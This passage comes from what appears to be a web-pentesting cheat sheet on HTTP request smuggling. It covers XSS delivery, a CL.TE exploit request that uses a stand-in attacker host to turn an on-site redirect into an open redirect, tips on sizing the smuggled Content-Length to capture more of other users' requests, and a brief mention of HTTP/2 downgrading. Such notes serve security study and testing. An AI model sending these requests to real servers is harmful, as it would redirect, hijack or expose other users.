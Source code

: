 The next user's request is appended to the smuggled one, delivering the XSS payload in their response.

### <mark style="color:purple;">Open redirect</mark> <a href="#using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect" id="using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect"></a>

<mark style="color:purple;">**CL.TE**</mark>

```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Exploit

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

## <mark style="color:purple;">Content-Length in the smuggled request</mark>

The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.

## <mark style="color:purple;">HTTP/2 request smuggling</mark>

**HTTP/2 downgrading**

HTTP/2 downgrading converts HTTP/2 requests into HTTP/1 syntax, allowing web servers and proxies to support HTTP/2 clients while communicating with HTTP/1 back-end servers.

## <mark style="color:purple;">Identification</mark>
